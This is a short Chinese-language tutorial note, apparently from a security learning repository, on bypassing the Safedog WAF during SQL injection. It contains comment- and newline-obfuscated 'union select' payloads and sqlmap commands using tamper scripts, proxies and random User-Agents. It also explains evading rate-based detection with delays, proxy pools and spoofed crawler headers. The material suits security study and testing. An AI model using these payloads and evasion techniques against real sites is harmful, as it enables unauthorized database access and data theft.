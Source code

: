 




推荐用FUZZ模糊测试=》脚本跑，一个个试效率低

```
SELECT * FROM users WHERE id=-1/*%0a*/union/*%0a*/select/*%0a*/1, 2,3;

id =-1 union%23a%0Aselect 1,2,3;%23  
也就是id =-1 union #a
select 1,2,3;#    //注意#是单行注释，a为了隔开，再加个保证


id =-1 union/*%00*/%23a%0A/*!/*!select 1,2,3*/;%23

```
#### salmap tamper
利用sqlmap tamper插件参数，对应文件夹下有各种自带脚本，我们也可以自己写然后用上
```
python sqlmap.py -u "http://127.0.0.1/test.php?id=1" --tamper=dog.py --proxy=http://127.0.0.1:8080   proxy是开启代理，可用burp查看请求信息
```
##### 绕过工具检测
⚠️sqlmap请求时useragent会带上sqlmap的指纹，安全狗检测到会拦截，==工具直接被拦截==

=》对此我们修改useragent即可绕过拦截，sqlmap也有参数修改头
`python sqlmap.py -u "http://127.0.0.1/test.php?id=1" --tamper=dog.py --proxy=http://127.0.0.1:8080 --random-agent`使用自带字典随机头访问

⚠️sqlmap太慢了可能是php版本过高，5.2.。。试试

##### 绕过流量检测

安全狗的流量防护是检测访问速度【同一ip访问多次会被ban】

=》**可以延时、代理池、爬虫** 绕过

1. 爬虫
> 百度 搜索引擎爬虫http头

- sqlmap也可以自定义useragent头
- 在sqlmap目录下`lib/core/option.py`里的1425行
- 或者加参数`--user-agent="xxx"`

2. 延时
- `--delay 1` 隔1s发一个数据包

3. 代理池

拦一个ip我换一个，python爬虫脚本有关


##### 总结
⚠️类似的，若对其他地方头有拦截，写python脚本，--tamper加上【中转脚本】

也可以`-r 3.txt`把修改后的请求报文放到txt里，不要-u，用-r请求文件也可以实现自主绕过
- 即sqlmap注入本地脚本地址，=》本地搭建脚本（请求数据包自定义编写）=》目标地址
> 百度 php自定义http数据包请求
